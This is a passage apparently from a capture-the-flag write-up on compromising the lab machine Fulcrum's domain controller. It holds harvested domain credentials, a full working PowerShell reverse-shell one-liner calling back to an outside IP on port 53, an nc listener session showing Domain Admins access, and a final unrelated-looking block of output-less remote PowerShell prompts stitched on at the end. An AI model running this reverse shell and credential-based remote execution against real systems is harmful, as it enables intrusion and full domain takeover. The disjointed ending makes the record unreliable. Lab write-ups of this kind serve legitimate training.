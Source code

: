 ```
PS C:\Users\BTables> type domain_users.csv | findstr "923a"
9f68,@fulcrum_df0923a7ca40_$
923a,@fulcrum_bf392748ef4e_$
```
_getting shell on the domain controller dc.fulcrum.local_
```
Invoke-Command -ComputerName dc.fulcrum.local -Credential 923a -Port 5985 -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.15.74',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

```
root@dastinia:~# nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.15.74] from (UNKNOWN) [10.10.10.62] 1559

PS C:\Users\923a\Documents> whoami
fulcrum\923a
PS C:\Users\923a\Documents>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                     Type             SID                                           Attributes
============================================== ================ ============================================= ===============================================================
Everyone                                       Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                  Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access     Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                         Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                           Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users               Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                 Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
FULCRUM\Domain Admins                          Group            S-1-5-21-3166400326-2861236044-2715240360-512 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity     Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
FULCRUM\Denied RODC Password Replication Group Alias            S-1-5-21-3166400326-2861236044-2715240360-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level           Label            S-1-16-12288
PS C:\Users\923a>
```
Box finally complete :)

```
PS C:\Users\Administrator\Desktop> type root.txt
...[snip]...
```





[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke